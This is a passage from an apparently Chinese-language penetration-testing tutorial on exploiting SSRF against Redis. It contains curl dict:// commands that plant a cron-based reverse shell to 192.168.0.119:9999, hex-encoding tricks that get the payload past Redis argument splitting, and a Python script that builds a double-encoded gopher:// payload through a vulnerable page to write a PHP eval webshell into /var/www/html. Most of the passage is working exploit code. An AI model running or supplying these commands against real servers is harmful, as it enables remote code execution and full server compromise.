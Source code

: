 2、依次执行下面的命令

curl dict://192.168.0.119:6379/set:mars:"\n\n * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\n\n"
curl dict://192.168.0.119:6379/config:set:dir:/etc/
curl dict://192.168.0.119:6379/config:set:dbfilename:crontab
curl dict://192.168.0.119:6379/bgsave*

执行时，反弹shell的命令，也就是set:mars:xxx，会因为特殊字符的原因无法写入到目标的redis中，被被空格所分割导致出现一下情况：

1584705879.520734 [0 172.17.0.1:44488] “set” “mars” “\n\n*” “" "” “" "” “root” “bash” “-i” “>&” “/dev/tcp/192.168.0.119/6789” "0>&1\n\n"

我们会发现，命令被分割了，看表象感觉像是被空格分割了。此时将反弹shell的命令进行十六进制转换，变为：

curl dict://192.168.0.119:6379/set:mars:"\x0a\x2a\x20\x2a\x20\x2a\x20\x2a\x20\x2a\x20\x72\x6f\x6f\x74\x20\x62\x61\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x39\x32\x2e\x31\x36\x38\x2e\x30\x2e\x31\x31\x39\x2f\x39\x39\x39\x39\x20\x30\x3e\x26\x31\x0a"

以上单引号使用反斜杠\进行转移，其他数据进行十六进制编码，执行结果如下，可以发现没有错误了

1584706087.980465 [0 172.17.0.1:44490] “set” “mars” "\n * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\n"*

剩下的修改路径和文件名称的请求，正常执行即可


### gopher://协议

gopher://协议经常用来打内网的各种应用如mysql redis等。一般要用一些工具来进行构造payload 如gopherus等

之前用来打redis内网的脚本如下

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib.request
from urllib.parse import quote

url = "http://192.168.239.78:41403/index.php?url="    #windows上搭建的ssrf漏洞页面
gopher = "gopher://0.0.0.0:6379/_" #/var/www/html
#auth nonono
# 攻击脚本
data = """
flushall
set test "\\n\\n<?php @eval($_POST[x]);?>\\n\\n"
config set dir /var/www/html
config set dbfilename shell.php
save
quit
"""
def encoder_url(data):
    encoder = ""
    for single_char in data:
        # 先转为ASCII
        encoder += str(hex(ord(single_char)))
    encoder = encoder.replace("0x","%").replace("%a","%0d%0a")
    return encoder

# 二次编码
encoder = encoder_url(encoder_url(data))

print(encoder)
# 生成payload
payload = url + quote(gopher,'utf-8') + encoder

# 发起请求
request = urllib.request.Request(payload)
response = urllib.request.urlopen(request).read()
```